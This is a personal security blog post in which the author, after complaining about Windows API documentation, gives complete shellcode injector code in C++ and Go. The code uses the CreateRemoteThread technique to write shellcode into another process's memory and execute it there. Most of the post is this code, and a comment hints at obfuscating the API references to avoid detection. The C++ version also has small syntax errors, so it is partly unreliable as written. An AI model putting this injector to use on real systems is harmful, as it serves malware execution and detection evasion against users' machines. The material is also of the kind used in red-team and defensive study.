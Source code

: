 ```yaml
---
title: "Approaching Windows"
date: 2021-06-01T00:41:45+02:00
draft: false
toc: false
images:
tags:
  - 0x04
  - windows
  - api 
  - clueless
  - cpp
  - c++
  - go
 
---
```


Well, hello there! Last few weeks have been a little busy between my mere analog life and ~~pwning industrial ovens~~ work.
Lately I have been banging my head against this thing known as **Windows**. 

It's APIs to be precise, as I am trying to move out of my comfort zone of "development" (I am by **no means** a developer, but when I make stuff, it's usually on Linux). 

As a side note, while we're talking about development, I recently decided to produce a rip-off of the amazing [xsshunter](https://xsshunter.com) and write it in Go. 
Mostly as a learning exercise for Go stuff. It's coded like shit, and currenty on the low priority list, so feel free to hop in and [help](https://github.com/thatsn0tmysite/xsserve).

Now, back to Windows. While there are a lot of complaints I have, mostly about situations where you read the documentation and end up facing a dead end because whatever you are looking at is undocumented... and the only information you can find about the topic is from some temporary account on codeproject, which made a stackoverflow question 8 years ago, which he self-answered. For Windows XP, SP1.

Looking at you "dwData" pointers...

So, to try and keep this post half-useful, I am gonna paste here a shellcode injector written in both, C++ and Go; using the overly (ab)used CreateRemoteThread technique.

The idea is simple, we just create a thread on a remote process, and give it our shellcode to run, this will run inside another process and will stay "in memory". 
To do this we will need a way obtain a handle of a give process (**OpenProcess**), to allocate memory area and make it executable (**VirtualAllocEx** and **VirtualProtectEx**), to write to said area (**WriteProcessMemory**) and finally a way to create the remote thread  (**CreateRemoteThread**).

This is a pretty standard way. So let's get threading!

```C++
#include <windows.h>
#include <processthreadsapi.h>
#include <memoryapi.h>

int Inj_CreateRemoteThread(UINT pid, BYTE[] shellcode, SIZE_T sh_size) {
	HANDLE hProc;
	LPVOID lpStartAddress;
	int writeProcError;
	DWORD lpflOldProtect = PAGE_READWRITE;
	
	//Get a handle from the given pid
	hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if(!hProc) {
		return -1;
	}
	
	//Allocate some space into the remote process, big enough to host our shellcode.	
	lpStartAddress = (LPVOID)VirtualAllocEx(hProc, NULL, sh_size, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE);
	if (lpStartAddress == NULL) {
		return -2;
	}
	
	//Write our shellcode to the allocated memory on the remote process,
	writeProcError = WriteProcessMemory(hProc, lpStartAddress, shellcode, sh_size, NULL)
	if (writeProcError == 0) {
		return -3;
	}
	
	//Change the memory to be executable
	if (VirtualProtectEx(hProc, lpStartAddress, sh_size, PAGE_EXECUTE_READ, (PDWORD)&lpflOldProtect) == 0) {
		return -4;
	}

	//Create & run a remote thread which points to the start of the memory holding the shellcode
	//we are discarding the handle to the thread, this might not be what you want in a real scenario.

	if (CreateRemoteThread(hProc, NULL, NULL, lpStartAddress, NULL, NULL, NULL) == NULL) {
		return -5;
	}
	
	//Close the open handles
	CloseHandle(hProc);

	return 0;
}
```

And now the exact same thing, but in Go:

```go
import (
	"syscall"
	"unsafe"
	"golang.org/x/sys/windows"
)

var (
	//DLLs
	kernel32 = syscall.NewLazyDLL("kernel32.dll")
	user32   = syscall.NewLazyDLL("user32.dll")
	ntdll    = syscall.NewLazyDLL("ntdll.dll")
)

const (
	PAGE_EXECUTE_READWRITE = 0x40
	PAGE_EXECUTE_READ      = 0x20
	PROCESS_ALL_ACCESS     = 0x1F0FFF
)

func Inj_CreateRemoteThread(pid int, shellcode []byte) (err error) {
	//You might want to encrypt references, these may look vErY SuSpIcIouS ;)
	virtualAllocEx := kernel32.NewProc("VirtualAllocEx")
	openProcess := kernel32.NewProc("OpenProcess")
	virtualProtectEx := kernel32.NewProc("VirtualProtectEx")
	writeProcessMemory := kernel32.NewProc("WriteProcessMemory")
	createRemoteThread := kernel32.NewProc("CreateRemoteThread")
	closeHandle := kernel32.NewProc("CloseHandle")

	memProtect := windows.PAGE_READWRITE

	//Get a handle from the given pid
	handle, _, err := openProcess.Call(PROCESS_ALL_ACCESS, 0, uintptr(pid))
	if isErr(err) != nil {
		return err
	}

	//Allocate some space into the remote process, big enough to host our shellcode.
	lpStartAddress, _, err := virtualAllocEx.Call(uintptr(handle), 0, uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if isErr(err) != nil {
		return err
	}

	//Write our shellcode to the allocated memory on the remote process
	_, _, err = writeProcessMemory.Call(uintptr(handle), lpStartAddress, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)), 0)
	if isErr(err) != nil {
		return err
	}

	//Change the memory to be executable
	_, _, err = virtualProtectEx.Call(uintptr(handle), lpStartAddress, uintptr(len(shellcode)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&memProtect)))
	if isErr(err) != nil {
		return err
	}

	//Create & run a remote thread which points to the start of the memory holding the shellcode
	//we are discarding the handle to the thread, this might not be what you want in a real scenario.
	_, _, err = createRemoteThread.Call(uintptr(handle), 0, 0, lpStartAddress, 0, 0, 0)
	if isErr(err) != nil {
		return err
	}

	//Close the process handle
	_, _, err = closeHandle.Call(uintptr(handle))
	if isErr(err) != nil {
		return err
	}

	return nil
}
```

As you see, the process is almost the same, mostly thanks to the **golang.org/x/sys/windows**  package. Now, in a real-world scenario just plain injecting the shellcode may not be as easy, as the injector is still highly easy to spot (common API pattern, cleartext references, etc).

Anyhow, Windows makes it generally pretty straight forward to perform operations on remote processes, no wonder userspace malwares are so popular! They are easy to implement, quick to develop and if they get caught, well... just make a new one.

I do plan on eventually sharing other snippets for stuff I find interesting, Windows-related... this is if I don't get slapped to numbness with a printed version of MSDN by my friend that has been trying to get me to learn all this shit. 

Over and out.
